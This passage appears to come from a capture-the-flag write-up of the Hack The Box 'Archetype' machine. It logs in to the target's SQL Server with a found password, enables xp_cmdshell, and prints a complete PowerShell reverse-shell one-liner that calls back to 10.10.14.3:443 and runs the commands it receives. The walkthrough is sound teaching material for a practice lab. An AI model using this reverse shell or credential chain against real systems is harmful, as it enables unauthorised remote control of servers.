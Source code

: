   - once the installation are finished we are going to install impaket by using the instructions provided and running the command: 
  
  ![image](https://user-images.githubusercontent.com/29686845/131587071-fb26a2fa-c4e5-4f0e-9373-fd731801dbe7.png)

  # Step 2: Exploitation
  
  - we are going to run the mysqlclient.py script with the UN: ARCHETYPE/sql_svc and the IP addr: 10.10.10.27 and the windows auth flag as seen below: 
  
![image](https://user-images.githubusercontent.com/29686845/131588329-337252ef-3680-4c2c-bff1-86d14f5f3a5b.png)

  - when prompted for a password we will try the M3g4c0rp123 password we found earlier. 

![image](https://user-images.githubusercontent.com/29686845/131588959-3696fac3-9758-4439-86e2-f46ea3e01ea9.png)

  - As you can see it worked we now have a connection to the SQL server
  - First we will check to see if our user has sysadmin privleges with the following command:
  
  ![image](https://user-images.githubusercontent.com/29686845/131594435-3565c333-9872-43e3-825f-3e05a959614f.png)
  
  - We see that it displays a 1. (in SQL 1 is true and 0 is false.)
  - So we have the highest level of privleges so we are going to try and spawn a shell. 
  
# Step 3: Creating a shell

Keep in mind we are still going to be inputting SQL commands (I will put link at the end of this section so you can learn more about SQL)

We need to create a xp_cmdshell and we can review this link https://stackoverflow.com/questions/5131491/enable-xp-cmdshell-sql-server to show us how, but I will walk your through the process as well. 
  
  - we will run the follwing commands in the screenshot below:
  
![image](https://user-images.githubusercontent.com/29686845/131596474-566cdac8-fb51-421e-89d7-bd5e55fecb5d.png)
![image](https://user-images.githubusercontent.com/29686845/131596593-cb3e584b-f80d-4cba-a9ff-b48aee44ae54.png)

Even though we are now using a cmd shell we should still attempt to get a proper shell. 
  - First lets create a script and call it shell.ps1 with the code that is in between the bars.
  
----------------------------------------------------------------------------------
      $client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
      $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
      $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
      System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
      Out-String );$sendback2 = $sendback + "# ";$sendbyte =
      ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
      e.Length);$stream.Flush()};$client.Close()
----------------------------------------------------------------------------------

  - A simple way to do this is to copy and paste it into nano
    - lets open a new terminal or split your teminal. 
    - type the command nano shell.py
    - Copy and paste the above commands into nano
    - On the first line, make sure that your IP Address is there and not the one provided. 
      - To do this run a ifconfig command
      - Note your tun0: inet address (if you are using a VM I think it is a different one) 
    - Save and exit
  - You are going to need to clean up the script to look like this. Placement is Important
  